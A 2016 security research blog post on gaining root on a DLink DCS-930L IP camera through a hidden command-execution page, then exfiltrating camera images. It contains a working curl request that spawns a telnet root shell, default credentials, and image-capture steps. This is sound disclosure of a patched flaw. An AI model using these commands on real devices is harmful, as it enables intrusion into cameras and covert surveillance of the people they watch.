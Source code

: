 ```yaml
---
layout: posts
title:  "DLink DCS 930L"
date:   2016-04-25 00:00:00 -0600
categories: security dlink ip-camera exploit
author: Nicholas Starke
---
```


In late 2015, I decided to start researching IP Cameras.  I decided to try out the cheapest models available on Amazon.com, both because I thought those models would be more “fruitful” and because I was trying to do this research on a budget.  It turns out that the security on these lower model IP Cameras is really bad.

I looked at five different IP Cameras and was able to gain root access on four of them within a few hours of starting to poke at them.  All of the cameras I looked at cost between $30-$70, and can be purchased directly from Amazon.com.

My goals in completing this research were two-fold:
1. Gain root access on the camera
2. Find a way to exfiltrate camera stills or video off the camera

On all four of the cameras I rooted, I was able to exfiltrate image data off of the device.

Today we’re going to look at one of the models I was able to gain root access on.  I chose this model because a subsequent patch fixed the vulnerability that allowed me to gain root access.

I started by running nmap to check the available ports.  Nothing too interesting there.

```
 Nmap scan report for 192.168.1.13
 Host is up (0.0026s latency).
 Not shown: 65532 closed ports
 PORT     STATE SERVICE
 80/tcp   open  http
 443/tcp  open  https
 8750/tcp open  unknown
 ```

This camera has pretty extensive web administration capabilities, including the ability to upload vendor supplied patches to update the device.  However, the version we will be looking at today is the version that comes installed on the device when you open the box: version 2.01.  The default credentials, which come printed in the documentation with the device, are `admin:admin`. The vulnerability I exploit below is patched in version 2.12 and above, which is available from the DLink website. 

My first try involved checking the various HTML inputs.  This turned up a couple of not very interesting cross site scripting vulnerabilities that would be hard to exploit in the wild.

## Wfuzz

My second try began with running wfuzz with the `directory-list-2.3-medium.txt` word list that comes with every default Kali Linux installation.  For those of you not familiar with wfuzz, it is a tool like dirbuster that facilitates directory enumeration on web servers that do not allow directory indexing.  Running wfuzz turned up a lot of html documents that I was already aware of, plus a few more that seemed useless - and then one that turned out to be the beginning of the jackpot: html.htm.

## Html.htm

Load html.htm in a browser and the HTML document will contain a list of all the webpages available in the web root.  It is more or less a directory index listing.  I navigated through each one of the pages until I found the next stage of the jackpot: docmd.htm!

## Docmd.htm and Telnet Injection

Docmd.htm contains a text box and a submit button.  This form allows direct command execution on the device.  So what’s the next logical step?

`telnetd -l/bin/sh`

A curl command capable of accomplishing this would look like:

`curl 'http://$CAMERA_IP/setSystemCommand' -H 'Authorization: Basic $BASICAUTH_CREDS' -H 'Content-Type: application/x-www-form-urlencoded' --data 'ReplySuccessPage=docmd.htm&ReplyErrorPage=docmd.htm&SystemCommand=telnetd&ConfigSystemCommand=Save'`

Fire up telnet or netcat and connect to port 23 of the camera.  Root shell accomplished!

## Image Exfiltration

While the root shell was not too difficult to load up, it took significantly longer to figure out how to capture image data.  I started by documenting all the binaries available in the PATH and elsewhere on the filesystem, and then working my way through each to see what they did:

```bash
 # ls /bin
 chmod          htmlunpack     sounddb        imagetp        ated           umount         ps             swing
 busybox        nvram_daemon   mknod          mail           kill           uvc_stream     rm             alphapd
 nvram_set      ash            openssl        ping           ralink_init    msmtp          i2c            gpio
 ls             pcmcmd         echo           notifystream   switch         mDNSResponder  lanconfig
 touch          sed            pppoecd        reg            audiopush      cp             mkdir
 upgradefw      mount          login          lld2d          iperf          mydlinkevent   ipush
 ntpclient      iwpriv         sleep          pwd            sh             nvram_get      cat
 grep           inadyn         date           schedule       mii_mgr        mtd_write      ov7740
 # ls /sbin
 automount_boot.sh    config-udhcpd.sh     udhcpc               reboot               udev                 config-igmpproxy.sh
 snort.sh             zcip                 cpubusy.sh           ucp                  wlan.sh              pppoe.sh
 ddns.sh              udhcpc.sh            acodec               route                poweroff
 internet.sh          ntp.sh               vpn-passthru.sh      web.sh               snmp.sh
 video.sh             config-dns.sh        config-pppoe.sh      arp                  dhcp.sh
 config-iTunes.sh     chpasswd.sh          halt                 ifconfig             automount.sh
 zcip.sh              init                 lan.sh               mdev                 cameraname.sh
 # ls /usr/bin
 killall      free         expr         test         ftpd         arping       printf
 [            [[           uptime       ftpputimage  top          tr
 # ls /usr/sbin
 chpasswd  inetd     brctl     telnetd
```

I eventually came across the `mail` command, which allowed me to write a `mail` message to `/tmp/mail.txt`.  Inside that file is the base64 encoded image data from the moment the “mail” command was run. Copy that data into a tmux buffer, write it to your local filesystem and base64 decode that raw data for an image file!

I also created a Metasploit module for this vulnerability: [https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution](https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution)
